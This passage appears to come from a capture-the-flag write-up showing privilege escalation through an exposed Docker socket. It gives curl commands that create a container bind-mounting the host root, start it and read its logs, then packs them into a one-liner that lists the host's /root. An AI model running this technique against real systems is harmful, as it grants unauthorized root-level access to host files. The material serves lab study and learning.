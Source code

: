 
The `Image` comes from the list of available containers above. The `Binds`
tells the container to map the host `/` to `/rootfs` inside the container. To
start, I’ll use `Cmd` to list the files in the root home directory. For some
reason I needed to set `Tty` to `true` to get this working.

#### Start Container

Next I’ll use the `/container/$id/start`
[API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerStart) to
start the container (I can use the full ID or the first four characters):

    
    
    root@2d24bf61767c:~# curl -i --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/0af5/start
    HTTP/1.1 204 No Content
    Api-Version: 1.40
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/19.03.8 (linux)
    Date: Tue, 01 Sep 2020 20:36:10 GMT
    

I included `-i` to see the headers. HTTP 204 is the expected code when the
container starts.

#### Get Results

At this point, the `Cmd` has already run. I’ll use the `/containers/$id/logs`
[API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerLogs):

    
    
    root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/0af5/logs?stderr=1&stdout=1"total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap
    

I’ll set both `stderr` and `stdout` to 1 to requests both, and then the
results come back showing the contents of `/root`!

#### One-Liner

To play with this, I generated the following one-liner so that I could just
push up-arrow, change the command, and then hit enter and get results:

    
    
    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap
    